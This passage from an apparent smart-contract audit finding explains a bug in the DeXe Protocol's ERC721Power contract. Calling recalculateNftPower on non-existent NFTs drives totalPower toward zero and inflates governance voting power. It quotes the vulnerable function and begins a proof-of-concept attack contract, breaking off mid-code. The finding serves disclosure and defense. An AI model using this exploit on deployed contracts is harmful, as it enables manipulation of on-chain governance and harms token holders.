 ```solidity

function recalculateNftPower(uint256 tokenId) public override returns (uint256 newPower) {
    if (block.timestamp < powerCalcStartTimestamp) {
        return 0;
    }

    // @audit newPower > 0 for non-existent tokenId
    newPower = getNftPower(tokenId);

    NftInfo storage nftInfo = nftInfos[tokenId];

    // @audit as this is the first update since
    // tokenId doesn't exist, totalPower will be
    // subtracted by nft's max power
    totalPower -= nftInfo.lastUpdate != 0 ? nftInfo.currentPower : getMaxPowerForNft(tokenId);
    // @audit then totalPower is increased by newPower where:
    // 0 < newPower < maxPower hence net decrease to totalPower
    totalPower += newPower;

    nftInfo.lastUpdate = uint64(block.timestamp);
    nftInfo.currentPower = newPower;
}
```

**Impact:** `ERC721Power::totalPower` lowered to near 0. This can be used to artificially increase voting power since [`totalPower` is read when creating the snapshot](https://github.com/dexe-network/DeXe-Protocol/tree/f2fe12eeac0c4c63ac39670912640dc91d94bda5/contracts/gov/user-keeper/GovUserKeeper.sol#L330-L331) and is used as [the divisor in `GovUserKeeper::getNftsPowerInTokensBySnapshot()`](https://github.com/dexe-network/DeXe-Protocol/tree/f2fe12eeac0c4c63ac39670912640dc91d94bda5/contracts/gov/user-keeper/GovUserKeeper.sol#L559).

This attack is pretty devastating as `ERC721Power::totalPower` can never be increased since the `currentPower` of individual nfts can only ever be decreased; there is no way to "undo" this attack unless the nft contract is replaced with a new contract.

**Proof of Concept:** Add attack contract `mock/utils/ERC721PowerAttack.sol`:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "../../gov/ERC721/ERC721Power.sol";

import "hardhat/console.sol";

contract ERC721PowerAttack {
    // this attack can decrease ERC721Power::totalPower close to 0
    //
    // this attack works when block.timestamp > nftPower.powerCalcStartTimestamp
    // by taking advantage calling recalculateNftPower for non-existent nfts
    function attack2(
        address nftPowerAddr,
        uint256 initialTotalPower,
        uint256 lastTokenId,
        uint256 attackIterations
    ) external {
        ERC721Power nftPower = ERC721Power(nftPowerAddr);

        // verify attack starts on the correct block
        require(
            block.timestamp > nftPower.powerCalcStartTimestamp(),
            "ERC721PowerAttack: attack2 requires block.timestamp > nftPower.powerCalcStartTimestamp"
        );

```